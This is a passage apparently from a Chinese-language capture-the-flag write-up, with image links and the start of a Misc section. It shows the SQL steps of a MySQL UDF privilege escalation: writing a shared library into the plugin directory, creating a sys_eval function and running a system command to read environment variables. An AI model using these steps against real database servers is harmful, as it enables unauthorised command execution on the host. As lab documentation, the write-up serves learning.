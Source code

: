 然后执行 sql 语句进行 udf 提权

```bash
select @@basedir
# 得到 plugin 路径/usr/lib/mysql/p1ugin
select unhex('xxx')into dumpfile '//usr/lib/mysql/p1ugin/udf.so';
create function sys_eval returns string soname 'udf.so';
select sys_eval("env");
```

flag 在环境变量里

[![](assets/1706958186-ace3675e895988cfd605b0bb6c0cc142.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131153028-9b9a9e20-c00a-1.png)

## Misc

### 2024 签到题
